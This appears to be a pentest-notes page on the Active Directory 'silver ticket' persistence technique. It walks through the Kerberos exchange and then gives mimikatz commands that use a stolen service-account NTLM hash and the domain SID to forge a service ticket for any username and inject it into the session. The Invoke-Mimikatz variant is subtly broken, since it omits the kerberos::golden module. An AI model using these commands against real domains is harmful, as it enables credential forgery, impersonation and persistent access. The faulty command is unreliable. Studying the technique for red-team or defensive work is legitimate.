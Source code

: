 # Domain Persistance - Silver Ticket
Kerbros is basis of authentication in AD , it is being attacked since it was implemented with new attacks being discovered every year

## Steps in Kerberos

- User logs on with username & password.

- Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC (Key Distribution Centre also known as Domain Controller) as an authenticator in the authentication ticket (TGT) request  Authenitcation Service Request (AS-REQ).  The Domain Controller (KDC) checks user information (logon restrictions, group membership, etc) & creates Ticket-Granting Ticket (TGT).

- The TGT is encrypted, signed, & delivered to the user (AS-REP). Only the Kerberos service (KRBTGT) in the domain can open and read TGT data.

- The User presents the TGT to the DC when requesting a Ticket Granting Service (TGS) ticket (TGS-REQ). The DC opens the TGT & validates PAC checksum . If the DC can open the ticket & the checksum check out, `TGT = valid`. The data in the TGT is effectively copied to create the TGS ticket.

- The TGS is encrypted using the target service accounts’s NTLM password hash and sent to the user (TGS-REP).

- **The user connects to the server hosting the service on the appropriate port & presents the TGS Application Request (AP-REQ). The service opens the TGS ticket using its NTLM password hash.**

- Optional mutual authentication is done by service that the user provides TGS ticket to

## Silver Ticket

The ticket that we obtain after getting TGT (Ticket Granting Ticket) signed by krbtgt from KDC , we recieve a TGS (Ticket Granting Service) for the server that we requested , that ticket is `silver ticket` , it is encrypted and signed by NTLM hash of service account of the service that is running

## Using mimikatz.exe

After getting the `NTLM hash which used RC4 encryption` of service account for which we want the TGS and SID of domain which can be found using`whoami /user` we can create a silver ticket , all that is required is 

- `/sid` insert SID of domain
- `/domain` domain name
- `/target` hostname of the service
- `/user` can be any username , even the one which does not exists
- `/id`  can be any id
- `/service` name of the service
- `/rc4` NTLM hash of service account 
- `/ptt` pass the ticket , load the ticket into the powershell session


```
privilege::debug

kerberos::golden /sid:sid_of_domain /domain:name_of_domain /ptt /id:500 /target:hostname_of_service_server /service:name_of_service /rc4:NTLM_of_service_account /user:any_user_name
```

```
Invoke-Mimikatz -Command '"/sid:sid_of_domain /domain:name_of_domain /ptt /id:500 /target:hostname_of_service_server /service:name_of_service /rc4:NTLM_of_service_account /user:any_user_name"'
```

